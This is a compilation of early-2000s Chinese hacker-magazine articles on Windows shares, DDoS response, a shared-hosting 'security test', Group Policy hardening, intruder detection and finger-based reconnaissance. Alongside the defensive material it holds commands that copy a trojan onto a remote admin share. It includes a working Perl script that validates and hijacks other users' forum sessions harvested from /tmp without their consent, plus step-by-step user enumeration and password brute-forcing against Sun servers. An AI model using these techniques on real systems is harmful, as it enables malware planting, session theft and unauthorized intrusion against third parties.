默认共享是为了方便远程管理而开放的共享，包含了所有的逻辑盘（c$、d$、e$……）和系统目录 WinNT 或 Windows（ADMIN$）。需要指出的是空连接和 IPC$ 是不同的概念。

> 注意：空连接是在没有信任的情况下与服务器建立的。

## 黑客X档案2002-2003年合订本

怎样映射和访问默认共享？使用命令 `net use m: \\目标IP\c$ 密码 /user:用户名`，将对方的 C 盘映射为自己的 M 盘，其它盘以此类推。如果已经和目标建立了 IPC$，则可以直接用 IP 加盘符加 `$` 访问，比如：

```bash
copy muma.exe \\IP\d$\path\muma.exe
```

或者再映射也可以，只是不用用户名和密码：

```bash
net use y: \\IP\d$
然后 copy muma.exe y:\path\muma.exe
```

当路径中包含空格时，须用引号将路径全引住。

# 黑客研究院

## 写在最后

共享的存在虽然方便了用户，但也存在安全隐患。因此建议你养成好的习惯，资源共享完成之后马上关闭共享，如果不是确实需要，最好不要设置网络邻居共享。这才是标本兼治的方法。或者干脆将“网上邻居”的服务取消；如果你必须用共享而又对安全重视的话，建议不要使用“共享级的访问控制”，而用“用户级的访问控制”（在本机的“控制面板”→“网络”→“访问控制”下设置）。这样 Windows 就会从网络上的主域控制器来读取用户访问列表。而在设置资源共享的时候，便就可以看到你可以具体到为每个用户设置相应的权限。

另外，如果你想比较好地控制自己的共享资源的话，可以把 Windows 自带的“网络监视器”装上，这样对于到底是谁在使用你的共享资源你自己就能心中有数，而且如果发现有未经你允许而使用你本机共享资源的话，也可以马上把他断开，真正做到实时监控。

## 服务器被 DDoS 攻击的紧急应对措施

菜牛

DDoS 的攻击过程也可以称为“拒绝服务”攻击，攻击者控制一群傀儡主机向受攻击的服务器发送大量的数据包。在这种情况下，靠近网络边缘的网络节点将会资源枯竭。

> 注意：原因有二：一是靠近服务器的节点通常总要处理更多的用户数据，二是由于数据在网络核心区的采集，使处于边缘的节点会接收更多的数据。此时，服务器系统本身也很容易受到攻击，在极度超载的情况下会瘫痪。

### 一、当我们遇到这种攻击时应该如何应付？

我们应该马上断开网络，否则攻击服务器的数据包很可能会令服务器 CPU 超负荷而导致死机。应立即查看安全日志，排查攻击我们的对方 IP 地址，这些地址往往并不是攻击者的真实 IP，而是被攻击者控制了的服务器 IP 地址。

下面介绍一个入侵安全检测工具 BLACKICE，它可以帮管理员很容易地分辨攻击行动及攻击者 IP 地址，如图 1 所示。



当我们的服务器连通网络的时候，我们要第一时间运行 BLACKICE，它会对所有尝试入侵或刺探服务器的行动记录下来，供管理员分析。

如果有 DDoS 攻击服务器，BLACKICE 会马上记录下来，如图 2 所示。


我们可以清楚地看到，在 2002 年 10 月 11 日晚上 8：09 分 23 秒、24 秒、25 秒、26 秒，分别有 4 台傀儡机同时 SYN FLOOD 攻击服务器，BLACKICE 很清楚详细地记录了下来。我们可以过滤这 4 台傀儡机攻击服务器的数据包，在记录的事件信息栏中对傀儡机点击鼠标右键，选择“拦截入侵者”，“拦截时间”定为一月或永远，因为一般的 DDoS 攻击时间长达一天甚至一星期，选择时间长些相对省事，如图 3 所示。


我们可以查看过滤后的情况，BLACKICE 内置的防火墙已经把我们选择的 IP 做了过滤，以后凡是被过滤的 IP 所发的数据包，服务器都拒绝接收，这样就可以起到防止 DDoS 攻击的效果，如图 4 所示。


如果你的服务器有 WEB 服务，还有另一个方法禁止攻击 IP 访问你的 80 端口：利用 2000 服务器 IIS 里目录安全性来设置禁止访问的 IP。设置如下：

> 打开“管理工具”里的“INTERNET 信息服务管理器”，选择你的 WEB 目录点击右键选“属性”——“目录安全性”——“IP 地址及域名限制”按“编辑”，然后我们在以下所列框里添加需要禁止的 IP，如图 5 所示。

这样 61.140.188.20 就不能 DDoS 你的网站了。

### 二、怎样才能维护好网络安全

DDoS 给网站带来损失的同时，也给人们再次敲响了警钟，作为网络用户，特别是负责网络安全的管理员、决策者，怎样才能维护好网络安全呢？

- 一个企业必须有专人负责其网络安全。至少有一个人全权进行系统安全维护，他应该对企业网络中的所有机器进行检查，以减少漏洞。
- 作为专门负责网络安全的管理员，必须对攻击方法了如指掌。换句话说，他要了解黑客是怎么工作的，只有这样，他才能保护好自己的机器。甚至负责人可在局域网中模仿黑客“入侵”自己的系统，以便发现网络漏洞，及时补漏。
- 网络安全管理员应该尽职尽责，仔细认真。在已发生的黑客攻击中，相当一部分事件是因为管理员工作疏忽造成的。
- 严格控制密码，提高密码保密性。在网络中，有些密码设置将较易被破获，因此应尽量减少知道密码的人数，分别给不同的人设定不同的使用权限。
- 选择一种优秀的防黑安全产品。即配备监测工具，不断提高对系统的认识。无论是从网上下载公开源码的监测工具，还是购买网络监测工具，都要实时监测别人是否在扫描自己的端口。若有人扫描端口，意味着有人可能要攻击此网络。

## 一次针对虚拟主机的安全测试

by analyst

声明：本文出于教育目的，请不要用于非法用途，否则后果自负！

这段时间一直做安全方面的研究，主要还是集中在 Windows 平台，目前研究重点是应用程序安全。和 CGI 安全相比，难度稍微大些，但是很多原理性的东西都是通用的，所以也很容易过渡。

总是做安全研究是很单调乏味的，所以有时候也搞一些渗透测试，当然一般都是合法的，在得到了用户授权的前提下。而我有自己的主页，所以我很关心它到底提供啥样的安全，所以就有了这次对主页所在虚拟主机的安全测试。

好的，废话少说，我们现在就开始吧！首先，获得主页所在虚拟主机的 IP 地址，如图 1 所示。

```bash
nslookup 主页域名
```

> 其中的结果里，“server”和“Address”是本地机器的 DNS 服务器，这个我们不用管它。下面的 Address 就是我们要的 IP 地址。


其次，看看目标主机所开的端口。这里我们用端口扫描工具 Xport 进行扫描，如图 2 所示。

```bash
xport IP 1-65535 -t 200 -v -m tcp
```

> 参数解释：IP 为目标 IP 地址；1-65535 为扫描从 1 到 65535 的端口。

【获得更详细信息并发线程数量测试使用 50 个线程，建议限制在 100 以内。通过图 2 也可以看出我们使用了 200 个线程数，扫描得很快。】

【tcp|syn】是一种进行半连接扫描的方法（即 SYN 方式扫描，或称为标准连接方式（tcp））。本例中我们用 TCP 进行扫描。

这次我们只是研究目前存在的已知漏洞，至于是否可能绕过执行命令的限制等问题下次再说！

我们先看看是否真的可以遍历目录，我们不能完全相信这个脚本，还是亲眼看一下才能确认，如图 5 所示。


从图 2 可以看出，开放的端口数还算不少，但是经过对 FTP（21）、SSH（22）、SMTP（25）和 POP3（110）的简单测试，发现就目前来说还是比较安全，因为目标主机要么隐藏了 banner，使你看不出什么东西；要么进行了 chroot 设置，或者是比较新的版本，再就是限制了连接。

看来在这些开放的端口上无隙可钻，至少目前找不出什么严重的安全问题，所以我把目光转向了 HTTP（80），这个我比较熟悉的端口。

先看看 WEB 服务器告诉我们什么信息？如图 3 所示。


好像没什么问题！算了，还是到系统里面看看吧。不要奇怪我说这句话，我可是该虚拟主机的客户，当然可以到里面转转啦！先上传一个 phpbd.php 到自己的主页，输入 URL，可以看到下面的结果，如图 4 所示。


哈哈，看来问题还不少嘛！根据结果来看，我们可以遍历整个文件系统，还可以查看任意文件内容，当然前提是我们对该目录或文件有读权限。但是，我们却不能执行命令，看来网管还是做了一些工作的。


看来的确可以遍历整个文件系统，那还等什么，查看一些重要的系统配置文件先！如图 6 所示。


这样，我们至少可以知道，该服务器上包括哪些用户，这些用户属于哪些组，他们的主目录在哪里，什么用户具有 shell，等等。但是搜索了一番，发现只有 root 用户才有 shell，不过服务器又没有开放 Telnet 或 SSH 给我们，所以比较失败。好在我们还有 FTP 访问权限，看看是否允许 root 使用 FTP。

但是我们无法访问“/etc/ftpusers”和“/etc/shells”，那就用最原始的方法吧！如图 7 所示。


看来 root 还是可以使用 FTP 的，不过暂时我们还不知道密码。在有权限的情况下，大家最好也看看“/etc/inetd.conf”和“/etc/hosts”等重要的配置文件，这些对于渗透测试都是有帮助的。下面看看系统日志，看看有没有重要的信息，如图 8 所示。


图 8

Apache 好像总是出错，如果我没猜错的话，这个 Apache 肯定经过他们的修改，只是由于种种原因，处理得不是很好，所以子进程时不时地被杀死。好在 Apache 发现子进程死掉之后会重新启动一个子进程。否则网管早就不用这个 Apache 了。

接下来看了看“/var/log/lastlog”和“/var/log/wtmp”，没有什么发现。下面看看重要的应用程序配置文件，这里主要是 Apache 和 PHP 的配置文件，即“httpd.conf”和“php.ini”，我们还是能够从中获取一些重要的信息，如图 9 所示。


图 9

怎么样？信息够丰富吧！我们知道了 httpd 的权限、加载的模块、支持的 CGI、文档主目录、日志文件名和位置、目录访问限制等，如图 10 所示。


图 10

从上面，我们同样可以获得一些关于 PHP 的重要配置信息，如 safe_mode、zlib.output_compression、disable_functions、max_execution_time、memory_limit、log_errors、track_errors、error_log、variables_order、register_globals、register_argc_argv、post_max_size、magic_quotes_gpc、file_uploads 和 session.save_path 等的状态或内容。

接着应该看看应用程序日志，主要包括“access_log”、“error_log”和“php_error”，这里我就不赘述了。

> 注意：同样，我们在查看应用程序配置文件和日志时，也应该考虑 FTP 和 MySQL；不过本文就不涉及了，感兴趣的可以自己看看。

不知道你有没有注意到，网管把“session.save_path”和“error_log”都设置为“/tmp”，而“/tmp”目录的权限往往是 0777，所以很有必要看一下，如图 11 所示。


图 11

哈哈，看到没有？这里有很多诱人的 session id 啊！看来我们可以进行一场好玩的 session hijacking 游戏了。首先把这些 session id 拷贝粘贴到一个文本文档中，存为“session”，然后写一个小的脚本，用来提取出有用的 session id，脚本代码如下：

```perl
#!/usr/bin/perl

open(SESSION, "session");
@todo = <SESSION>;
close(SESSION);

foreach $line (@todo) {
    while ($line =~ /([0-9a-z]{30,})/sig) {
        print $1."\n";
    }
}
```

我们把提取出来的 session id 存在一个文本文档“session.log”中。

下面的一个问题是，这是哪个站点的 session 呢？这个不难，我们可以从“access_log”和“error_log”中找，但是为了提高效率，我建议从“php_error”中查找，如图 12 所示。

> 出于安全的考虑，我们对可能泄露网站的一部分内容进行了马赛克处理。

看时间是比较新的，就拿这个练习吧！按照地址连接过去一看，原来是 WDB 论坛，一个漏洞蛮多的论坛，不过我今天不打算利用漏洞搞定这个论坛，所以还是进行 session hacking 吧！


> 下面的知识可能需要你对该论坛有些了解，当然如果你可以活用当然更好了。

我们的首要目的是获取有效的 session id，这里的有效指该 session id 属于登录用户。我们通过访问用户信息页面来进行验证。当然，我们得先看看该论坛是否有登录用户，如图 13 所示。


下面，我们抓包看看 HTTP 请求的格式，如图 14 所示。


知道了请求的格式，我们可以开始写提取有效 session id 的脚本了。注意我们不能在请求中增加“Accept-Encoding: gzip, deflate”字段，否则传输的数据都是压缩过的。

```perl
#!/usr/bin/perl

use Socket;

### you may need to modify it
$host = '****.51.net';
$port = 80;
$cgi = '/wdb/wdbprofile.php';

open(SESSION, 'session-log');
@s = <SESSION>;
close(SESSION);

@good = ();

$count = 0;

foreach $s (@s) {
    $count++;
    if (($count % 10 eq '0')) {
        sleep(1);
    }
    print $s;
    chomp($s);
    $req = "GET /wdb/wdbprofile.php HTTP/1.1\n".
           "Referer: http://****.51.net/wdb/index.php\n".
           "User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)\n".
           "Host: ****.51.net\n".
           "Cookie: s=$s\n\n";

    @res = sendraw($req);
    $todo = join('', @res);
    if ($todo =~ /新的密码/) {
        print chdir;
        push(@good, $s);
    }
}

foreach $good (@good) {
    print "\n============= ".$good." =============\n";
}

### modified from rfp's script!
sub sendraw {
    my ($req) = @_;
    my $target;
    $target = inet_aton($host) || die("inet_aton problems\n");
    socket(S, PF_INET, SOCK_STREAM, getprotobyname('tcp')) || die("Socket problems\n");
    if (connect(S, pack('SnA4x8', 2, $port, $target))) {
        select(S);
        $| = 1;
        print $req;
        my @res = <S>;
        select(STDOUT);
        close(S);
        return @res;
    } else {
        die("Can't connect ...\n");
    }
}
```

很快，我们得到了有效的 session id，下面验证一下是否真的有效。怎么验证呢？我们可以简单修改一下上面的代码，用其中的任意一个 session id，替换 Cookie 中的“$s”，如图 15 所示。


结果表明这些 session id 的确是有效的，我们如愿以偿地得到了该用户的资料，这些可是只有该用户本人才可能查看的啊，当然你可以做得更多。

安全测试到此就结束了，找到的问题基本属于配置方面的，看来这里的网管和大多数人一样，只重视外部安全，却忽视了内部安全，不过总的来讲还算比较安全。

## 组策略与网络安全


网络已经成了现在人们生活中的一部分，不过很多人仍然为网络安全而发愁，为什么呢？因为现在智能化的网络安全漏洞扫描器越来越多了。越来越多的“小朋友”摇身一变就变成了一个令人害怕的“黑客”“红客”“蓝客”了。对于那些没有钱买个人防火墙的人，比如我来说，那该怎么办呢？有没有一个简单的方法，或者利用系统自带的东西来阻截那些“黑客”呢？答案是：当然有。

对于学过 MCSE 的人都知道，Windows 2000 里有叫组策略的东西，它的功能十分强大。或许你曾经为使用注册表而感到头痛，为了记住那些键值而感到疲惫不堪。如果你学会使用组策略，则大可不必为了这些事情而费心了。当然，合理地配置组策略的一些功能，完全可以抵挡得住一般“骇客”的攻击了。

先介绍下什么是 MSC 文件吧，它是 Microsoft Management Console 的缩写。它是集成了一些系统工具于一身的综合性工具。要打开组策略是很简单的事了，在运行里输入：`gpedit.msc`，一个友好的界面就出现在你的面前了。如图 1 所示：


它给大家的印象是什么呢？是不是很像我们 Windows 2000 里的计算机管理控制台呢？它们的分类是很像的。其实它也是属于其中一个了。不说太多废话了，开始我们的具体配置。在黑客入侵的时候，他们经常要在对方的机器上执行一些程序，如：`net.exe`、`cmd.exe` 和 `t.exe` 等，如果我们能禁止这些程序的运行，那么他们就很难侵入我们的机器了。

我们来看如何在组策略中禁止运行指定的程序。依次展开“用户配置”、“管理模板”、“系统”子键，此时可以看到一个“不要运行指定的 Windows 应用程序”选项，双击该项，打开相应的窗口，可以在“说明”选项卡中查看相关说明。在“策略”选项卡中选择“启用”选项，启动 Windows 2000 禁止运行指定应用程序的功能，单击“不允许的应用程序的列表”后的“显示”按钮，打开列表框，在列表框中单击“添加”，打开“添加项目”窗口，然后在该窗口中输入需要禁止运行的程序名（可以不输入路径），“确定”后，该应用程序就会出现在列表框中；重复上面的步骤，将所有需要禁止运行的应用程序都添加到列表框中；最后单击“确定”按钮，关闭窗口，用户的设置即可生效，此后，这些指定的应用程序就不能运行了。如图 2 所示：


当然，我们最好也把 `compmgmt.msc` 禁用掉，这个是计算机管理的控制台，可防止别人远程连接计算机。

当然光禁止了这些命令是远远不够的，还是不能彻底阻止别人对你的扫描，我们要把帐户锁定策略配置好，如果别人使用简单密码扫描的话，这个策略可以用到，如图 3 所示。


当别人扫描三次不成功的话，这个帐户将被锁定了。再进一步吧，如果是个人用户，不要为别人提供一些共享之类的服务。我们没有必要在网络中让别人访问到我们的计算机，因为好多时候我们的 IP 地址被别人知道以后，别人就可以通过查找计算机在网络中找到你；如果你的机器连有打印机，如果符合某种品牌的，就有可能被别人入侵了！我们可以在组策略中禁止掉它，如图 4 所示：


当然，如果你还要想着：安全些，再安全些，那就要拒绝一些端口的访问。我们在默认安装 Windows 2000 的时候，会默认开放一些端口，如 135、139、445；如果你安装了 IIS，那么开放的就更多了。这个时候我们就要拒绝外部的 IP 地址来连接我们所开放的这些端口了。网络上有这么一条规则：端口开放得越多，就越危险；如果想绝对安全，那就要开放最少的端口。我们如何关闭这些默认的端口呢？其实在组策略中也是很容易实现的，我们就先举个 139 的例子来说明！第一步，在组策略的“计算机配置”、“Windows 设置”、“安全设置”中右击“IP 安全策略，在本地机器”，选择“管理 IP 筛选器表和筛选器操作”，启动管理 IP 筛选器表和筛选器操作对话框。我们要先创建一个 IP 筛选器和相关操作，才能建立一个相应的 IPsec 安全策略。

第一步，在“管理 IP 筛选器表”中，按“添加”按钮建立新的 IP 筛选器：

在出现的 IP 筛选器列表对话框内，填上合适的名称，我们这儿使用“tcp139”，描述随便填写。单击右侧的“添加...”按钮，启动 IP 筛选器向导。接着跳过欢迎对话框，下一步。在 IP 通信源页面，源地址选“任何 IP 地址”，因为我们要阻止传入的访问。下一步。在 IP 通信目标页面，目标地址选“我的 IP 地址”，下一步。在 IP 协议类型页面，选择“TCP”，下一步。在 IP 协议端口页面，选择“到此端口”并设置为“139”，其它不变，下一步，完成。关闭 IP 筛选器列表对话框，会发现 tcp139 IP 筛选器出现在 IP 筛选器列表中。

第二步，选择“管理筛选器操作”标签，创建一个拒绝操作：

首先单击“添加”按钮，启动“筛选器操作向导”，跳过欢迎页，下一步。然后在筛选器操作名称页面，填写名称，这儿填写“拒绝”，下一步。最后在筛选器操作常规选项页面，将行为设置为“阻止”，下一步，完成即可。

- 1. 右击“IP 安全策略，在本地机器”，选择“创建 IP 安全策略”，启动 IP 安全策略向导，跳过欢迎页面，下一步。
- 2. 在 IP 安全策略名称页面，填写合适的 IP 安全策略名称，这儿我们可以填写“拒绝对 tcp139 端口的访问”，描述可以随便填写；下一步。
- 3. 在安全通信要求页面，不选择“激活默认响应规则”，下一步。
- 4. 在完成页面，选择“编辑属性”，完成。
- 5. 在“拒绝对 tcp139 端口的访问属性”对话框中进行设置。首先设置规则：单击下面的“添加...”按钮，启动安全规则向导，跳过欢迎页面，下一步。在隧道终结点页面，选择默认的“此规则不指定隧道”，下一步。在网络类型页面，选择默认的“所有网络连接”，下一步。在身份验证方法页面，选择默认的“Windows 2000 默认值（Kerberos V5 协议）”，下一步。在 IP 筛选器列表页面选择我们刚才建立的“tcp139”筛选器，下一步。在筛选器操作页面，选择我们刚才建立的“拒绝”操作，下一步。在完成页面，不选择“编辑属性”，完成。
- 6. 关闭“拒绝对 tcp139 端口的访问属性”对话框。

第五步，需要指派和应用 IPsec 安全策略：

缺省情况下，任何 IPsec 安全策略都未被指派。首先我们要对新建立的安全策略进行指派。在组策略中，右击我们刚刚建立的“拒绝对 tcp139 端口的访问”安全策略，选择“指派”，如图 5 所示：


然后在右边的空白处右击，“刷新”就可以刷新组策略了。学会了对 139 端口的封锁，对其它端口的封锁就一定会了吧，大家可以自己尝试。

最后，为了防止网页中一些自动执行的隐含程序，我们也可以进行有效的防止，按照如图 6 所示就很容易实现了。


在该策略的属性中选择启用，然后刷新即可。

以上介绍的东西只是组策略冰山的一角而已，还有很多其它的功能有待大家在实践中发现。

## 如何定位入侵的黑客

王子

### 查找入侵者的 IP 地址及其它信息

自己的电脑被入侵了，这是谁都不愿意看到的，但是百密终有一疏，再安全的系统也难免会有些漏洞，黑客与网络安全就好比“矛”与“盾”，是在不断的对抗中提高水平的（这可能也是网络安全的魅力所在）。对于那些对网络安全重视度不够的企业，个人黑客的入侵就会显得悄悄的，难以发觉。正是这些入侵的不确定性，在日常管理和维护中更应该时刻注意安全问题，及时发现可疑事件，否则，一个小小的疏忽就可能带来不可估量的损失。只有经常检查系统，及时发现黑客入侵，及时修补相应的漏洞，方能做到“亡羊补牢，为时不晚”。

首先要查看的就是系统正在使用的端口列表，最简单也是最直接的方法就是使用 `netstat -a` 命令来查看，检查一下自己打开了些什么端口，是否有可疑的地方，最好能够有一个查看端口进程的工具，能够随时查出自己的进程。目前，大多数的木马或者后门程序都分开一个自己的端口单独使用，因此，从端口上查看能够发现一些木马或后门的踪迹。但是，这并不能对付所有的木马，而且一些打开系统后门的方法也不能这样检查出来。安装后门通常是入侵者必做的工作，同时后门也是入侵者宣告下次还要来的最明显的标志。

为了更清楚地看到本机的 IP 端口的连接状态，我们在 `netstat` 后面再加一个 `n` 参数，在 DOS 的仿真窗口中运行 `netstat -na`，将列出当前系统的 IP 端口连接状态列表。如果 1024 端口以上的不连续端口中出现监听（listening）或连接（established）状态，那么最好是检测是否开了什么服务，否则很可能是黑客在作怪。同时我们也可以用大名鼎鼎的“追捕”来获得黑客的进一步信息，“追捕”可以用来查找 IP 地址所在地域与该 IP 地址相关的信息。

### 检查系统日志

除了系统日志以外，还须查看你所开服务的日志，比如 ftp、iis 等等的日志，这个工作量比较大，而且要非常有经验，建议可以从以下几个方面入手：

- 1. 是否出现日志记录断裂；
- 2. 是否有可疑的帐户登录（使用帐户登录是最直接的入侵手段）；
- 3. 是否在不该出现的时间段内出现了不该有的事件。

另外，各种服务的日志记录也是发现入侵手段的最有效途径，比如 IIS 日志能够详细记录一个入侵者扫描 80 端口的全过程，以及他能够获得的有用的信息，对于开启 WEB 服务的服务器来说，多数入侵都是从这里进入的。

这里必须要提醒大家注意的是，记录日志的时候不光是进行审计，还应该做一定程度上的跟踪记录。

另外，我们还可在系统中增加审查程序，用来记录黑客的攻击和登录情况，比如可以在“控制面板”→“性能和维护”→“管理工具”→“本地安全策略”中设置“审核策略”。具体的设置方法如下：

首先在“本地安全策略”窗口中，打开“安全设置”→“本地策略”→“审核策略”项。如果我们想监视黑客利用暴力破解方法破解系统口令，那么可以双击“审核帐户登录事件”项，在弹出的“审核帐户登录属性”窗口中，将“审核这些操作”中的“失败”和“成功”选项选中，然后单击“确定”按钮关闭属性窗口。相应的选项还有“审核登录事件”和“审核帐户管理”。这样，在过了审核设置的时间后，我们就可以在“控制面板”→“性能和维护”→“管理工具”→“事件查看器”中看到相应的记录。

例如，有人尝试从远程连接到你的计算机，那么你就可以从“安全日志”→“成功审核”或“失败审核”中（在“安全日志”中双击相应的条目）看到具体的内容，其中源工作站中记录的就是远程计算机的机器名。

### 查看进程列表

打开任务管理器，查看进程列表，及时发现可疑进程。这是一个需要经验的工作，不要被一些“kernel”或“internet”这样的进程所迷惑，入侵者命名的进程往往很接近系统的进程名。一些入侵者使用可隐藏的进程，也可能通过系统进程来达到目的。

### 查看用户和用户组管理

打开计算机管理，查看用户和用户组管理，检查是否有可疑的用户出现，是否在各个用户组里面存在不该有的帐户，特别是像 administrators 这样的管理员组。按照一些黑客的惯用手法，通常把 guest 之类的系统默认帐户，同时也是不被注意的帐户添加到管理员组中去。查看共享文件夹是否出现不该有的共享，正常的配置情况下应该取消所有的共享，但是黑客们为了传送文件的方便，会打开一些共享文件夹。当然，大多数被入侵者打开的共享往往在被他们忘记关闭了，顺便再看看会话，说不定入侵者也正好在呢！

此外，如果黑客是通过图形界面登录到你的计算机上，那么在 Windows XP 操作系统所在的磁盘中的“Documents and Settings”文件夹下会出现已在该计算机上登录过的用户，则一定是有人非法进入你的计算机了。你浏览其中的文件夹，说不定能找到一些你意想不到的东西。

最后还需要查看的是服务，因为把程序启动成为服务能给入侵者相当多的便利。当然，这个启动的服务名称一定具有相当的欺骗性，必须要仔细观察才能发现。

除了以上介绍的方法外，我们还可以通过网络流量分析统计从而找到黑客入侵的踪迹，让你能够发现是否被入侵过。当然，还可以通过专门的防黑软件（如 lockdown）来实时检测黑客的入侵。

另外，不要以为上面的检测内容非常复杂，如果能定时进行前面所介绍的检测，其实也花不了太多时间，而且即使被人入侵了，也能够尽量把损失减到最小，并能及时发现潜在问题。


刘佳

从一个攻击者的角度来说，攻击大致分为两个阶段：

### 1、寻找目标，收集有用信息

选定攻击目标——即准备攻击的系统，通常是从已经攻入系统的 `.rhosts` 和 `.netrc` 文件所列的主机中挑选出来，从系统的 `/etc/hosts` 文件中可以得到一个很全的主机列表。但在大多数情况下，选择攻击目标时是一个很盲目的过程，除非攻击者有明确的目的和动机。攻击者也可能找到 DNS 域名系统，透过 DNS 可以知道机器名、Internet 地址、机器类型，甚至还可以知道机器的属主和单位。攻击目标还可能来自偶然看到的一个调制解调器的号码和躺在旁边的机器使用者的名字，所以“网络这么大，黑客对我的机器有什么兴趣”的想法是十分愚蠢的。

### 2、获得初始的访问权和特权

攻击者需要伪造访问目标的 ID，以冒充正式的用户。系统对用户的认证是靠用户名和口令进行的，攻击者喜欢用众所周知的用户名进行攻击。许多情况下，这些名字由姓和名的首字符构成，即使用户名没有这么明显，也很容易用 finger 和 ruser 命令来获得。


熟悉 UNIX 系统的人可能对 finger 这一命令并不陌生，在 UNIX 系统里，Finger 命令用来列出当前系统中每个注册用户的注册名、姓名等多项信息；同样地，在 Internet 上，Finger 命令也可以用来查询在某台 Internet 主机上已注册的用户的详细信息，而且用户不仅能够访问当前他所登录的主机，还可以对网络上其它提供 Finger 服务的服务器进行访问。

如果你知道某人在哪里收邮件，那么 Finger 就是最有用的命令。

```text
例如输入命令：finger liyan
将得到如下信息：
Login name: liyan                In real life: Li Yan
Directory: /export/home/liyan    Shell: /bin/csh
On since Mar 6 15:21:47 on pts/20 from alice.bupt.edu.cn
0 minutes 11 seconds Idle Time
No unread mail.
No Plan.
```

Finger 的命令格式：

```text
finger [参数] [用户名]
finger [-l] [主机名@用户名]
```

参数如下：

| 参数 | 含义 |
|---|---|
| -b | 抑制用户缺省报告格式打印用户 home 目录和 shell |
| -f | 抑制正常用非长格式报告打印的标题的打印 |
| -h | 抑制从远程主机打印 project 文件 |
| -i | 紧凑“空闲”格式。除掉姓名、办公室、终端、注册时间和空闲时间外，与短格式相似 |
| -l | 长列表输出格式，可用于远程 |
| -m | 在用户名上进行变元匹配 |
| -p | 压制用 long 输出格式打印 plan 文件 |
| -q | 短列表输出格式，除仅打印注册用户名、终端和注册时间外，它与短格式相似 |
| -s | 短列表输出格式 |
| -w | 压制用短输出格式打印全名 |

当你在缺省状态下时，Finger 命令将显示有关每个注册用户的信息，包括注册名、全名、终端名、空闲时间、注册时间和所附的存储单元。（其中空闲时间是一个单一整数，则是分钟；出现“:”则是小时和分钟；出现“d”则是天数和小时）。例如：finger

```text
Login     Name              TTY       Idle   When        Where
zyang     Yang Zhengqiu     pts/4       16   Tue 16:43   202.112.101.50
tangsi    Tang Shousan      pts/5            Wed 15:15   202.112.101.78
huangxi   Huang Xi          console     *10  Wed 15:35
laneng    Meng Luonding     pts/14     1:17  Wed 14:31   202.112.101.77
wouc      Wu                pts/7      1:28  Fri 19:26   ibm1.buptnet.edu.cn
lonyxd    Long Xindian      t2/01       23   Wed 11:00   202.112.101.43
sayao     Yao Shijian       pts/19      *10  Wed 14:29   202.112.101.79
zhengd    Zheng Tong        pts/20      ?    Wed 15:29   202.112.101.18
zoyang    Yang Zhengqiu     pts/21     1:23  Wed 09:01   202.112.101.50
jhl       Jiang Hailing     pts/22           Wed 15:03   202.112.99.92
siyang    Yang Shijun       t1/23/9     20   Wed 15:30   202.112.104.83
liyan     Li Yan            pts/28           Wed 15:51   alice.bupt.edu.cn
```

Finger 命令不但能探测目标主机是否连通，往往还能告诉攻击者许多有用的信息。例如：

```text
C:\>finger @192.168.10.6

[192.168.10.6]
Login Name TTY Idle When Where
warn warn pts/4 52 Thu 15:43 192.168.8.100
```

如果没有人登录这台服务器的话，你 Finger 不到有用的信息。但别灰心，往下看。

```text
C:\>finger 111@192.168.10.6

[192.168.10.6]
Login Name TTY Idle When Where
daemon ??? < . . . . >
bin ??? < . . . . >
sys ??? < . . . . >
deeean ??? 1 <Sep 12 20:18> deepin.nsFocus.c
loge ??? pts/9 <Oct 18 00:36> 192.168.7.70
yadd ??? < . . . . >
bzh ??? pts/3 <Jul 5 10:30> 192.168.2.3
%x%x ??? < . . . . >
bacd ??? < . . . . >
ftp ??? 21 <Nov 1 16:57> 192.168.4.2
teamd-l ??? < . . . . >
test ??? < . . . . >
fle ??? < . . . . >
newc ??? pts/1 <Nov 1 08:55> 192.168.1.1
edcs ??? pts/3 <Oct 30 17:31> 192.168.1.7
ave ??? pts/5 <Oct 29 15:26> 192.168.9.21
cloud ??? pts/1 <Nov 1 16:39> 192.168.99.3
cccccccc ??? < . . . . >
thaz ??? pts/1 <Oct 18 17:02> sun27
```

Sun 服务器的 finger 服务有个 bug。那就是你输入 `finger 111@192.168.10.6`（只要 `@` 前面是数字就可以），你就可以得到所有登录过这台服务器的用户信息。

其实国内服务器上的用户比较少，国外的服务器用户却多得很。

对付基于 BSD 的系统（如 Solaris）有一绝招，就是：

```text
C:\>finger "a b c d e f g h i"@192.168.10.6
```

自己试试吧，不只所有的用户列出来了，就连密码这些几乎也全出来了。

**注意：** 根据我找到大量开放 Finger 服务的主机，可以用 superscan 扫描一个网段的 79 端口。


Finger 出了服务器上的用户名，就可以尝试 Telnet 了，没准碰到几个傻瓜用户。其实我们可以将这些得到的用户做成一个 TXT 文件作为暴力破解的用户列表。

**注意：** 在制作用户列表时，用户名后面不要有空格，否则破解时会浪费很多时间。

现在我们有了用户列表，只差暴力破解的工具了。我建议大家使用国产的 FTPPASS。FTPPASS 支持多用户名多线程破解，可以节省时间。首先我们选择用户名文件，然后将字典也设置为刚才的用户列表。用不了多久，就会得到用户名和密码相同的用户名了。

**注意：** 其实对于 Finger，我们可以 Telnet 对方的 79 端口，然后给出一个用户名。如果对方主机有这个用户名，则会返回一个成功的提示，否则就会显示 `finger: name: no such user`。

得到了普通用户名之后，我们离 root 就不远了。我们可以通过本地漏洞提升为 root；Sun 的 mailx 程序就是一个邮件服务程序，它相当于 Linux 的 mail 程序，2001 年被发现有溢出漏洞。如果这招不灵，我们还可以看看它的 rpc 服务。因为 Sun 的 rpc 远程溢出太可怕了，这几年层出不穷，这也是对付 Sun 服务器最有效的方法。拿此服务器为例，它的 ttdb-serverd 守护进程就很有可能有溢出漏洞，当然如果这台机器没有 patch 的话。关于它的溢出程序我不在这里写了，有兴趣的可以 google 一下。如果运气好，几分钟就可以搞定一台服务器了。其实 Sun 的漏洞还有很多，我就不多说了。

